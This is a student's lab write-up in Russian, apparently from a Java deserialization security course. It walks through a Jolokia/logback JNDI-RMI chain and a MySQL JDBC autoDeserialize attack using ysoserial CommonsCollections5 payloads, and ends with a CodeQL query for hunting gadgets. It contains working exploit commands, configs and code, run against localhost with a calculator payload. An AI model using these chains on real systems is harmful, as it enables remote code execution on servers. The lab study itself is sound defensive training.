


## 5.6.7. Exercise – Find the Gadget

### Принцип действия

Spring-приложения могут использовать "актуаторы", которые отдает информацию о рантайме приложения через определенные эндпоинты.
Если среди зависимостей приложения есть `jolokia`, то она добавляет актуатор по пути `http://localhost:8090/jolokia/exec/...`, вызов которого
позволяет выполнять некоторые действия.

Среди этих действий есть возможность стриггерить обновления logback-конфига, используя метод `reloadByURL`. Запрос выглядит так:

```
http://localhost:8080/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/SERVER:PORT!/logback.xml
```

При перезагрузке конфига будет выполнен запрос на SERVER:PORT. Если этот адрес указывает на контролируемый злоумышлеником сервер (в нашем случая это будет просто http-сервер, отдающий определенный logback.xml), то в новом конфиге может быть указано

```
<insertFromJNDI env-entry-name="rmi://localhost:1099/jndi" as="appName"/>
```

что приведел к попытке зарезолвить значение переменной через JNDI/RMI. В качестве JNDI-сервера используем ysoserial, запущенный в режиме `ysoserial.exploit.JRMPListener`.

### Реализация

0. Модифицируем `logback.xml`:

   ```xml
   <configuration>
    <appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
        <withJansi>true</withJansi>
        <encoder>
            <pattern>[%thread] %highlight(%-5level) %cyan(%logger{15}) - %msg %n</pattern>
        </encoder>
    </appender>
    <root level="info">
        <appender-ref ref="STDOUT" />
    </root>
    <jmxConfigurator/>
    <insertFromJNDI env-entry-name="rmi://localhost:1099/jndi" as="appName"/>
   </configuration>
   ```

1. Запустим HTTP-сервер, который будет отдавать этот logback.xml:

   ```shell
   (cd /home/student/FSWA/module-2/build-standalone/src/main/resources && python3 -m http.server 9090)
   ```

2. Запустим spring-приложение с jolokia в CLASS_PATH:

   ```shell
   (cd /home/student/FSWA/module-2/build-standalone && ./run -new)
   ```

3. Запустим ysoserial в режиме JRMPListener (порт 1099). Пэйлоад -- калькулятор

   ```shell
   (cd /home/student/FSWA/module-2/build-standalone && java -cp ../../tools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "gnome-calculator")
   ```

4. Выполним HTTP-запрос, который обновляет logback-конфиг и запускает весь процесс:

   ```shell
   curl 'http://localhost:8080/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/localhost:9090!/logback.xml'
   ```

Результат:




## 5.6.10. Exercise - MySQL Trickery

### Принцип действия

В jdbc-библиотке среди прочих параметров подключения можно указать `autoDeserialize`, который позволит клиенту автоматически десериализовавать данные, которые отправляет MySQL-сервер. Однако непосредственно сам клиент не вызывает `readObject`, это делает конкретный "queryInterceptor" (миддльварь), которая обрабатывает запросы от ответы. В миддлваре ServerStatusDiffInterceptor (https://github.com/spullara/mysql-connector-java/blob/master/src/main/java/com/mysql/jdbc/interceptors/ServerStatusDiffInterceptor.java) вызывается метод `readObject` (https://github.com/spullara/mysql-connector-java/blob/cc5922f6712c491d0cc46e846ae0dc674c9a5844/src/main/java/com/mysql/jdbc/Util.java#L496), что и приводит к уязвимости.

В качестве MySQL-сервера используется мок-сервер, который будет отдавать зараженный пейлоад (сгенерированный через ysoserial). В мануале предлагается использовать python3-сервер отсюда: https://landgrey.me/blog/11/, но вроде как на новом питоне он не работает, я использовать https://github.com/fnmsd/MySQL_Fake_Server.git.

Т.к. в CLASS_PATH есть `common-collections` то будем использовать пэйлоад типа `CommonsCollections5` (5 определяем методом перебора).

### Реализация

1. Используем https://github.com/fnmsd/MySQL_Fake_Server.git в качестве MySQL-сервера.
   Конфиг:

   ```yml
    {
        "config":{
            "ysoserialPath":"/home/student/FSWA/tools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar",
            "javaBinPath":"java",
            "fileOutputDir":"./fileOutput/",
            "displayFileContentOnScreen":true,
            "saveToFile":true
        },
        "fileread":{
        },
        "yso":{
            "yso_Jdk7u21_calc":["CommonsCollections5","gnome-calculator"]
        }
    }
   ```
   подключения через юзера yso_Jdk7u21_calc будут приводит к отдаче ysoserial-пэйлоада


   запуск: `python3 server.py`

2. Запустим spring (mvn clean install && ./run -new -debug). В параметрах JDBC-соединения указываем
   1) queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
   2) нужного юзера
   3) нужный хост питон-сервера
   4) autoDeserialize=tru


   HelloController:

   ```
    package hello;

    import com.fasterxml.jackson.databind.DeserializationConfig;
    import com.fasterxml.jackson.databind.ObjectMapper;
    import org.springframework.web.bind.annotation.*;
    import org.springframework.web.multipart.MultipartFile;

    import java.sql.*;

    @RestController
    public class HelloController {

        @RequestMapping("/")
        public String index() throws java.lang.ClassNotFoundException, java.sql.SQLException {
            String driver = "com.mysql.cj.jdbc.Driver";
            String user = "yso_Jdk7u21_calc";
            String password = "ubuntu";
            //String url = "jdbc:mysql://0.0.0.0:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true";
            String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc";
            Class.forName(driver);
            Connection conn = DriverManager.getConnection(url, user, password);

            return url;
        }
    }
   ```

3. Сделаем запрос: curl 'http://localhost:8080'

Результат:




## 5.6.13. Exercise - Find another Gadget

Предлагается найти путем обзора кода (https://github.com/wso2/wso2-axis2/) гаджет, аналогичный разобранному в мануале. В https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html описывается,
что на этой версии библиотеки гаджет возможет из-за некорректного `SafeObjectInputStream`, который вызывает `inObject`. Можно попытаться найти вызовы `readExternal` (на классах, реализующих `Externalizable`), которые вызывают `SafeObjectInputStream#readExternal` и при этом присутсвуют вызовы типа (SomeClass) readExternal(). В частности, этот запрос находит `MetaDataEntry`, указанный в статье, и еще несколько аналогичных классов


```java
import semmle.code.java.dataflow.DataFlow

class CustomSink extends DataFlow::ExprNode {
  CustomSink() {
    exists(Method m | m = this.asExpr().(MethodAccess).getMethod() |
      m.hasName("readObject") and
      m.getDeclaringType().hasQualifiedName("org.apache.axis2.context.externalize", "SafeObjectInputStream")
    )
  }
}

class CustomSource extends DataFlow::ExprNode {
  CustomSource() {
    exists(Method m | m.calls(this.asExpr().(MethodAccess).getMethod()) |
      m.hasName("readExternal")
    )
  }
}

module MyFlowConfiguration implements DataFlow::ConfigSig {
  predicate isSource(DataFlow::Node source) {
    source instanceof CustomSource
  }

  predicate isSink(DataFlow::Node sink) {
    sink instanceof CustomSink
  }
}

import semmle.code.java.Conversions

module MyFlow = DataFlow::Global<MyFlowConfiguration>;

from DataFlow::Node source, DataFlow::Node sink, Interface iface
where MyFlow::flow(source, sink)
and iface.hasQualifiedName("java.io", "Externalizable")
and not sink.asExpr().getFile().getRelativePath().matches("%test%")
and exists(
  Class c | c.fromSource() and c.getCompilationUnit() = source.asExpr().getCompilationUnit() and c.hasSupertype+(iface) and (exists(ConversionSite cs | cs.isImplicit() | cs.getType().toString().matches("MetaDataEntry")))
)
select source, sink, "ok", source.asExpr().getCompilationUnit()

```
